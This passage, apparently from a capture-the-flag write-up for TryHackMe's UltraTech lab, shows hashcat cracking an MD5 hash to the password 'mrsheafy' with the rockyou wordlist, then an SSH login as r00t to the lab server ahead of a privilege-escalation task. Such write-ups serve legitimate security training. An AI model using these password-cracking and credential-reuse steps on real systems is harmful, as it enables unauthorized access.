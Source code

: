 ```
* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

0d0ea5111e3c1def594c1684e3b9be84:mrsheafy        
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: 0d0ea5111e3c1def594c1684e3b9be84
Time.Started.....: Wed Oct  7 16:33:00 2020 (4 secs)
Time.Estimated...: Wed Oct  7 16:33:04 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1329.7 kH/s (0.34ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 5345280/14344385 (37.26%)
Rejected.........: 0/5345280 (0.00%)
Restore.Point....: 5343232/14344385 (37.25%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: mrsoutley -> mrsburgy

Started: Wed Oct  7 16:32:56 2020
Stopped: Wed Oct  7 16:33:06 2020
kali@kali:~/CTFs/tryhackme/UltraTech$
```

## Task 4 The root of all evil

Congrats if you've made it this far, you should be able to comfortably run commands on the server by now!

Now's the time for the final step!

You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal.

Mistakes were made, take advantage of it.

```
kali@kali:~/CTFs/tryhackme/UltraTech$ ssh r00t@10.10.185.130
The authenticity of host '10.10.185.130 (10.10.185.130)' can't be established.
ECDSA key fingerprint is SHA256:RWpgXxl3MyUqAN4AHrH/ntrheh2UzgJMoGAPI+qmGEU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.185.130' (ECDSA) to the list of known hosts.
r00t@10.10.185.130's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct  7 14:38:02 UTC 2020

  System load:  0.03               Processes:           101
  Usage of /:   24.3% of 19.56GB   Users logged in:     0
  Memory usage: 74%                IP address for eth0: 10.10.185.130
  Swap usage:   0%


```